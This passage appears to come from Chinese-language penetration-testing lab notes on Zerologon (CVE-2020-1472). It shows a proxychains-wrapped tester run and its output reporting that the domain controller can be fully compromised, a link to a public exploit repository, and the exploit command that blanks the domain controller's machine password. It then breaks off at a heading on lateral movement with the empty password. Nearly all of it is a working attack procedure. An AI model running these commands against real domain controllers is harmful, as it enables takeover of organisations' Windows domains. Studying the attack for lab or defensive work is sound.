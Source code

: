 ### POC验证

发现漏洞存在

```bash
┌──(root💀kali)-[~/Desktop]
└─# proxychains4 python3 zerologon_tester.py dc 10.10.10.139                                                                                            
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Performing authentication attempts...
[proxychains] Dynamic chain  ...  127.0.0.1:53301  ...  10.10.10.139:135  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:53301  ...  10.10.10.139:49669  ...  OK

Success! DC can be fully compromised by a Zerologon attack.
```

### EXP利用

[CVE-2020-1472: NetLogon特权提升漏洞（附exp复现） - Bypass - 博客园 (cnblogs.com)](https://www.cnblogs.com/xiaozi/p/13678055.html)

[获取域控权限.pdf](file:///F:/暗月渗透/新/渗透测试23 内网渗透篇/获取域控权限.pdf)

```http
https://github.com/dirkjanm/CVE-2020-1472
```

```bash
proxychains4 python3 cve-2020-1472.py dc dc$ 10.10.10.139  
```

成功把域控密码置空：

<img src=".\图片\Snipaste_2023-05-12_17-50-30.png" alt="Snipaste_2023-05-12_17-50-30" style="zoom:80%;" />

## 空密码横向
